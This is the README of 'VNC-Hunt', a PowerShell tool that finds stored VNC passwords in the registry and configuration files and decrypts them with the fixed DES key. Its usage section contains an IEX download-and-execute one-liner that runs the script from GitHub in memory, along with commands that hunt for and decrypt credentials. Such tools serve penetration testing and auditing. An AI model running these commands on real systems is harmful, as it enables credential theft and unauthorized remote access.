 ## About

This PowerShell script searches for VNC passwords stored in the registry and configuration files for various VNC implementations, including RealVNC, TightVNC, TigerVNC, and UltraVNC.
The script identifies and decrypts these passwords using the DES algorithm with a fixed key. It covers the following VNC implementations:
 - RealVNC: Searches the registry for VNC server proxy credentials.
 - TightVNC: Searches the registry for server passwords, control passwords, and view-only passwords.
 - TigerVNC: Searches the registry for server passwords.
 - UltraVNC: Searches for passwords in configuration files located in specified directories.

### Usage
Load into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/VNC-Hunt/main/VNC-Hunt.ps1")
```
Hunt for VNC credentials
```
VNC-Hunt
```
Decrypt supplied encrypted password value
```
VNC-Decrypt -Password FACBCF50C3BF1C08
```

![image](https://github.com/The-Viper-One/VNC-Hunt/assets/68926315/8867a265-7afc-4ff2-a9d2-4f0894326199)

